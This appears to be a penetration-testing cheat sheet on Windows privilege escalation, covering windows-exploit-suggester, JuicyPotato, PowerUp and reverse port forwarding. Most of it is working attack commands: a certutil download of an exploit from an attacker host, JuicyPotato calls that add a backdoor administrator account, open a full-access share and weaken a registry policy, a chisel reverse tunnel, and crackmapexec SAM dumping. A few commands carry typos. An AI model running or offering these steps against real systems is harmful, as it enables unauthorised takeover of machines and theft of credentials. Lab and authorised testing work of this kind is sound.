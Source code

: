 # Windows Machine {-}

## Active Directory {-}

### Golden Ticket Attack {-}

The goal of this attack is to generate a Ticket Granted Ticket. For this attack you thenneed to recover the hash of the **krbtgt** user that is the one who 
can create those tickets

## Check possible privilege escalation vulnerabilities {-}

1. check os:

    ```bash
    systeminfo
    ```

1. copy the result and pase in a file in local

1. download windows-exploit-suggester.py

1. generate xlsx data base
    
    ```bash
    python3 windows-exploit-suggester.py --update
    ```

1. check systeminfo documentation

    ```bash
    python3 windows-exploit-suggester.py -i systeminfo.txt -d 2021-07-14-mssb.xlsx
    ```

1. github.SecWiki/windows-kernel-exploits

1. `python -m http.server`

1. `certutil.exe -f`

## Check command history {-}

```powershell
dir/s *history.txt
```

## Check local open ports {-}

```powershell
netstat -nat
```

Usefull to know if we have to do port forwarding.

## JuicyPotato {-}

Juicy Potato is a local privilege escalation tool that exploit Windows service accounts impersonation privileges.

1. Check user privilege

    ```powershell
    whoami
    whoami /priv
    ```

    ```r
        knitr::include_graphics("images/juicy-impersonate-priv.png")
    ```

    Here we can see that `SeImpersonatePrivilege` is enabled. That means that we can use JuicyPotatoe to run commands

1. Check users in the system

    ```powershell
    net user
    ```

1. Create User with Admin privilege

    - download JuicyPotato.exe and copy in the victim machine
    - create folder in `C:\Windows\Temp`
    - Transfer JuicyPotato to Windows Machine
    
        ```powershell
        certutil.exe -f -urlcache -split http://10.10.10.10/JuicyPotato.exe JP.exe
        ```
    - Create user looping

        ```powershell
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user looping looping123! /add"
        ```

    - Add user to Administrators group

        ```powershell
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators looping /add"
        net user looping
        ```

    - Create Share folder where user with Administrators rules have Full privilege

        ```powershell
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL"
        ```
    
    - Update local account policy to gain access to the system

        ```powershell
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System 
                                                                    /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
        ```

    - Check with chisel and crackmapexec if user looping is now Pownd 

        - download chisel on attacker machine and on victim machine
        - run chisel on attacker machine

            ```bash
            ./chisel server --reverse --port 1234
            ```

        - run chisel on windows victim machine

            ```powershell
            chisel.exe client 10.10.10.10:1234 R:445:127.0.0.1:445
            ```
        - check if revert port forwarding works

            ```bash
            crackmapexec smb 127.0.0.1
            ```

        - check if looping is powned
        
            ```bash
            crackmapexec smp -u 'looping' -p 'looping123!' --sam

            #OUTPUT
            SMB 127.0.0.1   445 MACHINENAME [*] machinename\looping:looping123! (Pwn3d!)
            ```
    
    - Connect to machine with psexec.python

        ```bash
        locate psexex.py
        psexec.py WORKGROUP/looping@127.0.0.1 cmd.exe
        ```
    

## System enumeration with PowerUp for Privesc {-}

**PowerUp** is a script from the PowerSploit Library. PowerSploit is a collection of Microsoft PowerShell modules that can be used to aid penetration 
testers during all phases of an assessment.

[PowerSploit github](https://github.com/PowerShellMafia/PowerSploit)

1. Open the script

    ```bash
    cd PowerSploit/Privesc
    vi PowerUp.ps1
    ```

1. Set an automatic execution of the desired Alias

    - Write `Invoke-AllChecks` the end of the file

1. Send to the victim machine

1. Check the result

    ```r
        knitr::include_graphics("images/sys-enum-powerup.png")
    ```


In this example we can see that the UsoSvc is a Modifiable Service with an Invoke-ServiceAbuse function.

Feel free now to check for an exploit on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings).
Payloads for Windows and Active Directory are listed in the [Methodology and Resource Folder](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
where you can find a **Windows - Privilege Escalation.md**.

Search for UsoSvc to find what to do.
